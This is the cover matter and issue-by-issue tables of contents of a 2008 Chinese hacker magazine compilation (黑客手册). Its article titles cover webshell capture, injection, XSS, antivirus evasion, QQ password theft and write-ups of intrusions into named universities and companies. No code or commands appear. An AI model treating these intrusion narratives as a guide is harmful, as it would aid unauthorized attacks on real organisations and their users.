# 非安全黑客手册合订本2008年①②季第一部分

---

# 黑客手册 2008①②季终

# 性感全集

控制酷炫入。Hack 超值 DVD 《精通脚本黑客》电子书










36元 nohack.cn 最新黑软/黑客动画/实用软件/奥运软件集合/手机软件/手机游戏

# NOHACK



978-7-900452-37-5

黑客手册

散播计算机病毒和传播病毒均是一种违法行为。请遵守国家相关法律法规！

# 非安全合订本

黑客手册 2008 ①②季


## 黑客手册

# WWW.NOHACK.CN



出品人：非安全

编辑：Python、LCX、空气、眼镜猴、李亦聪、小S、浪迹天涯、李文杰、星陨石碎

特约编辑：飘飘雨、小迷、XApache、[zero]、剑心、寂寞刺猬、张宇、snipergg、LinX、B4N、青蛙王子、小龙猪

平面规划：柳絮

网站：www.nohack.cn

网站编辑：空气

版权申明：图文版权所有，未经同意，不得转载。

投稿信箱：nohack@21cn.com

邮购查询：hope_wym@sina.com

光盘投稿 / 交流信箱：CD@nohack.cn


网上书店：book.nohack.cn

# 目录 CONTENTS 2008.01

## 烽火台
- 14 新闻短评快
- 15 漏洞公告牌

## 肉鸡瘦身
- 15 批量拿 shell，我用 IIS 写权限 —— 冰的原点 [L.S.T]

## 菜鸟恶补
- 17 离开端口，木马无法驰骋 —— 天涯寞草
- 18 电脑利用手机 GPRS 无线上网 —— habina
- 19 菜鸟必修课之精通 IP 地址（上） —— 冷雪书生

## 鹰鹫归来——新任特辑
- 21 同一主机通过 80 端口实现对 JSP 脚本的解析 —— 星陨石碎

## 酷玩
- 26 利用 56.com 续过 Ozone 空间密码偷看相册 —— 李德学
- 27 去除烦人的 QQ 管家广告 —— habina
- 27 快速查找 QQ 好友有没有删除你 —— 小坏坏
- 27 巧换 QQ 会员头像 —— 雪雪
- 28 免费领取 QQ 秀 —— -L
- 28 QQ 安全 —— 窝
- 28 让视频进驻 QQ —— 白长利
- 29 简单破解在线 QQ 密码 —— 张欢[风之痕]

## Q版黑大战
- 30 小菜学 BAT 续篇之 ASP WebShell 免杀器 —— 踏雪
- 31 菜鸟初战 U 盘病毒及手杀上兴服务端 —— hxu
- 33 从零开始学 IPSec 策略 —— 西邮猎手
- 35 管理自动化 —— 飘来飘去
- 36 菜鸟也来挖漏洞——记一个类粘滞键后门的发掘与利用 —— zerosoul
- 37 首次手动病毒查杀 —— 谢昌晓
- 38 挖掘深山红叶 —— 冷黎[gz]
- 39 轻松突破校园网限制——homeshare 的使用 —— zhaolei
- 40 黑吃黑之记一次非主流的入侵 —— 逍遥忧仇 / 江摩来

## 黑小说
- 42 NOT GAME——不是游戏 —— 笨笨心情女人

## 新闻练练看
- 44 最新漏洞大看板 —— [ceskYs]@l.s.t
- 45 跨站备出 WEBSHELL——网域高科行业 B2B 商务平台实例 —— 樱花浪子[1.S.T]
- 47 云网互动影视后台验证——绕着走 —— Mystery
- 48 唐网和良精的秘密 —— 小帅[O.S.T]杭州互联网中学
- 51 看小菜如何搞定 tomcat —— 伤心的鱼[SST]
- 52 浅析中华免费家教网整站程序 1.5 —— 李武祥
- 53 对网域高科学校网站管理系统 V2008 漏洞分析 —— 香烟烫
- 55 对网愿科技——人才网的简单分析 —— 冰的原点

## 西线无战事
- 56 对××广播电视大学的一次渗透 —— 冷焰
- 58 隔空取物——利用 UTL_HTTP.REQUEST 对 Oracle 进行远程注入 —— LT
- 60 对母校的一次安全检测 —— 杨攀
- 61 Radmin 提权拿下变态服务器 —— 南京自动化研究院 冯谷
- 62 eWebEditor.Net 漏洞之辽宁文学艺术网的沦陷 —— 雕牌 / 杜华军
- 63 从大站找 XSS 跨站 —— 小帅@{O.S.T}
- 65 通过网页文件获取数据库帐号和口令 —— Simeon

### 高手专栏
- 66 Mysql5 注射技巧总结 —— Flyh4t
- 67 我在入侵过程中注意到的细节（一） —— lcx
- 68 入侵过程中的常用小技巧（一） —— 冰域剑客

## 黑客免杀班
- 69 SYS 文件的免杀方法 —— 蜀国布衣
- 70 疯狂免杀木马过咔吧、金山、NOD32、瑞星、巡洋舰等杀软 —— 倾城

## 窗外
- 72 Linews
- 73 Ubuntu 桌面环境体验——办公与美化篇 —— Lucifer
- 75 让 sed 帮我们提高工作效率 —— 乔磊

## 泡泡吧
- 76 网管日记之初入网吧 —— 冰的原点[L.S.T]
- 77 破解 IKeeper——实现免费上网 —— Cos α
- 78 浅析 Pubwin2007 —— 冰的原点[L.S.T]
- 79 利用 MS07-017 本地提权突破机房管理系统 —— 张碧辉

## 病毒分析
- 80 利用 OD 分析 win32.parite 病毒 —— 认真的雪

## 快码加编
- 81 Perl 自助菜单[伍] —— wolfSea 黄钰璀
- 83 RootKit 变响前奏 2 —— 魔幻水晶
- 85 Spsspch 洞洞一条龙 4 —— 魔幻水晶

## CRACKER
- 87 86 的破音破语
- 87 每月破新闻
- 87 每月破资源
- 87 破零之前见破解术语简单介绍 2 —— December
- 89 找机器巧破解 crackme 的实例 —— KYO
- 90 网易生成器脱双层壳 —— 倾城

## 读编互动
- 92 Q & A —— 徐师傅

# 目录 CONTENTS 2008.02

## 烽火台
- 94 新闻短评快
- 95 漏洞公告牌

## 肉鸡瘦身
- 95 深入分析 IIS 写权限

## 菜鸟恶补
- 96 菜鸟必修课之精通 IP 地址（下）
- 99 浅析 cookie 窃取攻击
- 100 电脑利用 PHS&CDMA 无线上网

## 酷玩
- 101 QQ 钓鱼全攻略
- 102 打造个性 QQ 客户端
- 103 突破 QQ 相册上传数量限制
- 104 QQ 鲜为人知的“秘密”
- 104 免费领取 QQ 秀
- 105 QQ 秀，我们我秀

## Q版黑大战
- 106 浅谈 Vmware 虚拟机的使用
- 109 Windows 下建立隐藏文件夹
- 109 ACDSee 助我横行网络
- 111 浅谈映像劫持的另类应用
- 111 统着进系统
- 113 整蛊专家之 U 盘惊魂

## 新闻练练看
- 113 终点小说系统安全漏洞分析与利用
- 116 再累讯时 CMS 高危漏洞
- 117 乔客 CMS4 补掉的一个漏洞
- 117 WAP 建站系统安全分析
- 119 菜鸟也来学 ActiveX 漏洞挖掘
- 120 对良精科技企业网站管理系统的漏洞简析与技巧
- 121 Ftbbs PHP 版注入漏洞分析
- 123 检测冠龙科技网站管理系统
- 124 再越嘉缘人才系统
- 125 仅仅是鸡肋？——腾讯的一个 XSS

## 西线无战事
- 126 陷落华夏黑客联盟
- 128 对复旦大学的一次漫长渗透
- 129 对某某大学的一次意外渗透
- 131 记一次对母校曲折的入侵检测
- 132 十三 WebShell 全免杀终结版的后门及免杀
- 133 一次不成功的入侵
- 135 厦大，黑你不是我的错！
- 137 注入北京理工大学
- 138 电信站我也来入侵

### 高手专栏
- 138 我在入侵过程中注意到的细节（二）
- 139 入侵中的小技巧一枝

## 黑客免杀班
- 140 再过瑞星主动防御
- 141 让杀软掉进无底黑洞
- 142 ——打造免杀和专版的黑洞

## 专题——超级漏洞波
- 143 动网 8.1 最新漏洞分析利用
- 145 dvbbs8 X 跨站漏洞串烧
- 148 动网 8.1.1 版后台获取 webshell
- 149 动网 8.1 版后台拿 webshell 又一法

## 窗外
- 150 Linews
- 151 Ubuntu 桌面环境体验——虚拟机与游戏篇
- 153 Unix 系统安全——文件服务器篇
- 155 利用 X-window 配置错误入侵 Linux

## 泡泡吧
- 156 网管日记之有人在免费上网
- 157 读黑手后的一点心得

## 快码加编
- 158 PERL 自助菜单[伍2]
- 159 网页版的注册机
- 163 My RootKit Hide Process
- 164 跟我一起打造自己的浏览器

## CRACKER
- 166 86 的破音破语
- 166 每月破新闻
- 166 每月破解资源
- 167 破解之重启验证型之 ini 文件
- 169 小破“VS 游戏竞技平台”登录密码
- 170 易语言程序脱壳与破解

## 读编互动
- 171 Q & A
- 172 29 号信箱



# 目录 CONTENTS 2008.03

## 烽火台
- 174 新闻短评快
- 175 漏洞公告牌

## 肉鸡瘦身
- 175 手把手教你拿 shell 之动易上传漏洞 —— TSP
- 176 利用 phpMyAdmin 配置不当拿 SHELL —— iamnull [O.S.T]

## 菜鸟恶补
- 177 入侵不可或缺的“端口映射” —— 蜀国布衣
- 179 网络跳板，黑客隐身的重要因素 —— 张键

## 酷玩
- 180 IM 帐号大聚会 —— 过客似风
- 181 窃取 QQ 中社会工程学的应用实例 —— 神话 [S.e.R.T]
- 181 QQ2009 Preview 评测报告 —— Kay4
- 183 不是内测用户我照样体验 QQ2009 —— 艾米 / 李武群
- 183 把你的 QQ 昵称和年龄隐藏起来 —— L
- 183 删除了的空间日志照样看 —— 活在记忆里
- 184 QQ 会员获得硬盘文件下载路径的方法 —— 恨·天
- 190 QQ 窗口连续抖动 —— 马圣

## Q版黑客
- 184 利用“NTFS”手杀顽固病毒 —— 迪克绅士
- 185 防止 CMD 闭壳 —— 璇玑凌冰
- 186 利用 hosts 文件为你上网护航 —— 小环球
- 187 获取对方 IP 等信息的新方法 —— OWENHU [O.S.T]
- 188 用 RAR 对付兔子的文件夹加密 —— 皂晓东

## 冷眼看黑
- 189 谨告 2008——关于技术与态度的一些思考 —— 撕碎了的小C

## 黑小说
- 190 断头台 IV——轮舞 —— 紫光拼音

## 采访
- 191 黑客圈就是娱乐圈——采访中国 X 黑客小组二当家承诺

## 新闻练练看
- 193 再暴风讯 0day —— Mystery&Mystar
- 195 讯时 2.9 漏洞剖析 —— sniperhg [O.S.T]
- 197 利用列目录漏洞突破讯时新闻系统 —— 冰域剑客
- 198 看小菜是如何刺穿网蛟的咽喉 —— 小帅 [O.S.T] / 杭州昆山中学
- 201 新的攻击方式？搜索引擎的启发 —— 小帅 @ [O.S.T] 杭州昆山中学
- 202 详解流行音乐网程序漏洞 —— 梦幻☆剑客
- 203 白满进销系统分析 —— 小帅 [O.S.T] 杭州昆山中学
- 205 对南方数据企业网站管理系统 V10.0 漏洞分析 —— 春唇谈
- 206 简单体验 MS08-011 —— sniperhg @ [O.S.T]

## 西线无战事
- 207 对网易的一次友情测试 —— 马骏（lsecsp）
- 208 入侵 hackdiy.com —— 马骏（lsecsp）
- 209 or 注入 DJ 网站 —— Tommie
- 211 利用 Tomcat 的用户名和密码构建“永久”后门 —— Simeon
- 213 猪猪字幕组引发的一次入侵检测 —— 小帅 & sniperhg
- 215 从 cookies 注入到拿下 58 个网站 —— 清风长风 [B.B.E]
- 217 传统渗透方法的反用 —— 冷焰
- 218 IIS 下的 MySql 提权 —— 南京自动化研究院 马谷

### 高手专栏
- 219 我在入侵过程中注意到的细节之三 —— lcx
- 220 入侵过程小技巧 —— 樱花浪子

## 黑客爱杀戮
- 221 菜鸟免杀三误区 —— 逍遥复仇 / 江厚来
- 222 利用映像劫持保护木马 —— 蜀国布衣

## 阳春三月专题
- 223 阳春三月专题——我的私人 Lab：网络实验室搭建 DIY —— 撕碎了的小C [E.S.T]

## 墙外
- 228 Enews
- 229 Ubuntu 桌面环境体验——KDE4 篇 —— Lucifer
- 231 Unix 系统安全——文件服务器资源调试 —— evilangel
- 232 穿透新版红帽 Selinux 强制安全设置 —— XApache

## 泡泡吧
- 233 MM 下载忘记关 QQ 后发生的故事 —— X·Stars
- 234 再战网吧之与 PUBWIN2007 的邂逅 —— SDS
- 235 终结网吧很 EASY —— 缥缈雾影 love → yadi

## 快码加编
- 235 Ajax 蠕虫初体验 —— 漫无目的
- 237 了解 Hooks（一）之菜鸟恶补 —— Lescper
- 238 易语言编程之菜鸟打造简单流氓软件 —— clzzy [B.B.E]

## CRACKER
- 239 86 的破言破语
- 239 每月破新闻
- 239 每月破资源
- 239 破解之重启验证型之注册表型 —— December
- 241 菜鸟入门级 Crackme —— Hacksign
- 244 加密 VS 反加密 —— 夜翼
- 246 采访看雪学院站长——kanxue —— 10086

## 读编互动
- 247 Q & A —— 徐师傅
- 248 29 号信箱 —— 眼镜猴

# 目录 CONTENTS 2008.04

## 烽火台
- 250 独家新闻
  - 浙江舟山黑客门：黑客手册亲历美国
  - 有线电视新闻网（CNN）采访黑客天下现场
- 251 漏洞公告牌

## 肉鸡瘦身
- 251 首发 PHPCMS2007 最新注入漏洞 —— sniperhg [O.S.T]
- 252 手把手教你拿 shell 之手工注入 ACCESS 篇 —— iamnull [O.S.T]

## 菜鸟恶补
- 254 连续 Shift 带来的恶果 —— 蜀国布衣

## 酷玩
- 255 无法完成 IE 7 个性化设置的解决方法 —— popdog1412
- 255 免费无限大极速网络硬盘 —— 景宝
- 256 用 meebo 来登 QQ —— 景宝
- 257 QQ 垃圾文件清除 —— 恐怖小区
- 257 最新 QQ 空间代码 —— L

## Q版黑客
- 258 3389 管理员的噩梦 —— 邪恶の精魂
- 259 Vista 下的 IIS——IIS7 的安装与调试 —— 郑州九中2010届三班 / simeon
- 260 使用 EmailCrack 破解邮箱密码
- 261 再谈 Google Hack —— 冰的原点 [L.S.T]

## 冷眼看黑
- 262 做黑客是可耻的？——谈黑客在国内的尴尬地位 —— 撕碎了的小C [E.S.T]

## 黑小说
- 264 扼杀于萌芽状态 —— 笨笨心情女人

## 采访
- 266 采访 DCM——kvlIz

## 新闻统统看
- 267 从 dbbs 漏洞浅谈 .net 应用程序安全性 —— 剑心
- 273 两个 BSPX 注入分析暨利用 —— Tommie
- 275 利用 insert 来注射 mysql —— flyh4t
- 276 最新动网 PHP 版漏洞——从模拟到实战 —— 南京自动化研究院 冯谷
- 278 嘉枫文章管理系统文本框中搜索型注入 —— arugamama
- 280 对 boblog 系统的分析 —— 冰的原点 [L.S.T]
- 281 揭露 88red 系统 —— 小帅@ [O.S.T] / 杭州良山中学
- 283 交友征婚网站的小漏洞 —— 一手夹烟，初学者
- 284 几个脚本程序的简单分析 —— sniperhg [O.S.T]
- 285 南通人才系统漏洞分析 —— 初学者，一手夹烟
- 289 小问题引发的对 DZ 的思考 —— 冰的原点 [L.S.T]
- 290 首发攻击技术——犀利的 Oracle 注射 —— Linx

## 西线无战事
- 292 在某知名游戏代理商内网傲游 —— 落叶纷飞 [S.S.T] @ 肇庆
- 293 成功还是失败？——我对金山公司的第一次测试 —— 冰的原点 [L.S.T]
- 295 社工戏谑枫林中学校园官方网 —— 晓华 [岁月联盟]
- 298 西北工业大学一日游 —— 冰 sugar (J.S.T)
- 299 利用 Radmin 口令进行内网渗透控制案例 —— simeon
- 300 利用整站源代码拿草站 —— Evilguy
- 300 CBA 官方网站的诞生 —— 小帅 @ [O.S.T]
- 301 对某电器集团官网的一次渗透 —— 施杰
- 304 一次简单的渗透 —— cn_判官 (Summer)
- 305 通过社工获取网易某频道 shell —— 马骏 isecsp

### 高手专栏
- 306 批处理打造自己的小工具 —— NP

## 黑客免杀班
- 308 让 RAR 再次不被进行查杀 —— 蜀国布衣
- 309 利用 SEH 加花来进行免杀 —— 蜀国布衣

## 窗外
- 309 Linews
- 310 Ubuntu 桌面体验之服务器设置 —— Lucifer
- 312 初试 Linux 环境下的 rootkit 后门——WNPS 安装使用方法 —— 华东理工大学数学系 施杰
- 314 安装 PCLinuxOS 2008 MiniMe 到 U 盘

## 泡泡吧
- 315 网管日记之初识硬件 —— 冰的原点 [L.S.T]
- 316 利用 BAT 和 VBS 辅助局域网入侵 —— 【↖主旋律↑】

## 快码加编
- 316 文件与文件夹隐藏加密解密原理与破解方法彻底研究 —— 朱建良 张婷
- 320 U盘菇菇之 VBS 高级版本 —— Snamkey, M&W [M.K.S.R]
- 321 用 VB 制作鸽子 IP 更新程序 —— qswsqsw
- 322 ASP 解密游戏编写与通关策略（一） —— 冰域剑客

## CRACKER
- 323 86 的破音破译
- 323 每月破解新闻
- 323 每月破资源
- 323 破解之常见破解术语简单介绍 3 —— December

## 读编互动
- 325 Q & A —— 徐师傅
- 326 29号信箱 —— 眼镜猴

## 目录 CONTENTS 2008.05

## 烽火台
- 328 新闻——中国，加油！
- 328 漏洞公告牌

## 肉鸡猛龙
- 329 让 Google 帮我们牧马 —— 过客似风

## 菜鸟恶补
- 331 我也谈跳板 —— 拉风酷[O.S.T]
- 332 批处理编写中特殊命令的用法 —— roger
- 335 黑客成长之路——BAT 知识进阶 —— Kay4
- 336 XP SP3 系统整合及利用 Sandboxie 构建系统安全方案 —— roger

## 酷玩
- 339 QQ 之防攻战 —— 郝安山（婷之爱）
- 340 疯狂抢注百度 HI 群号 —— 小坏坏
- 341 简单盗空间模块代码
- 341 不进 QQ 空间照样看日志 —— 小坏坏

## Q版黑客
- 342 巧挖网站中的 PPT 课件 —— 山东招远一中新凌微机组 年晓东
- 342 用批处理打造磁盘、文件夹背景更换器——个性背景任你换 —— 乔磊
- 343 突破 ISP 的共享限制 —— 搜虎精品社区&[H.S.T]&[D.I.O]
- 345 浅析 IIS 6.0 设计缺陷 —— 冰的原点[L.S.T]

## 冷眼看黑大战
- 346 Linux 请走下神坛 —— 黑板

## 黑城传言
- 348 黑客编年史 —— 文 / 茄子黑

## 新闻练练看
- 350 Dedecms v5.0.1 多个 0day 漏洞曝光 —— Flyh4t
- 352 Friends!，漏洞不是 Friendly —— 非零解
- 353 Php168，一个正则引起的血案 —— Flyh4t
- 354 品路影视系统 2.0 漏洞分析 —— 非零解
- 356 RealPlayer rmoc3260.dll 漏洞小玩 —— JiaJia [YuLv]
- 358 脚本 DJ 站——多此一举的防注入文件 —— 小帅@[O.S.T]&[Vtow]
- 359 新云下载系统注射、跨站漏洞 —— Chun.liu
- 360 科汛 phpcms 的多个漏洞 —— 冰的原点[L.S.T]
- 361 整蛊商贸通 v8.0 —— Mystery
- 365 “网软天下”网尽天下的伤痛 —— 初学者
- 369 网软漏洞连连看之网软购物豪华版 —— 94.媛伱☆
- 371 全面解析淘宝斯新房产程序漏洞 —— 梦幻★剑客
- 373 南方数据看不见的注入

## 西线无战事
- 373 利用 HZHOST 虚拟主机系统提权 —— Hzjhjlj [s.h.c]
- 374 Php 注入豪杰解霸官方 —— 小帅(xsser)@[O.S.T]
- 376 看我来入侵《鹤岗黑客联盟》 —— 樱花浪子
- 378 渗透 160 ×××× 网站 —— 也许
- 378 写于服务器被入侵之后 —— 马骏(isecsp)
- 380 社工渗透一例 —— 冷焰
- 380 我用 DVBBS+PHP 版 0day 拿下猪猪猫 —— sniperhg

### 高手专栏
- 381 批处理的 API——WMIC 学习体会 —— lcx

## 黑器免杀班
- 383 突破 MYCCL 定位瑞星内存特征码的难题 —— x140CC
- 385 对 PE 文件输出表进行免杀 —— 蜀国布衣
- 386 让土匪也能自动生成免杀服务端 —— Lupin（兰宇痴）

## 窗外
- 388 Linews
- 388 Unix 系统安全——权限机制加强版 —— evilangel
- 390 php 注入拿 webshell 到 Linux 系统权限 —— 南京自动化研究院·冯谷/rabbitsafe
- 391 我们为什么要用 Linux —— 东北大学·冷月X

## 快码加编
- 392 Asp 解密游戏编写与通关策略（二） —— 冰域剑客
- 394 简简单单编写远程控制软件 —— cn_判官（Summer）

## CRACKER
- 398 86 的破音破语
- 398 每月破新闻
- 398 每月破资源
- 398 使用 EFS 来保护文件 —— simeon

## 读编互动
- 401 Q & A —— 徐师傅

# 目录 CONTENTS 2008.06

## 烽火台
- 403 新闻短评快
- 404 漏洞公告牌

## 闪鸡猛龙
- 404 手把手教你拿 SHELL 之 XSS 下的一些利用 —— 小帅(xsser)[O.S.T]

## 菜鸟巡礼
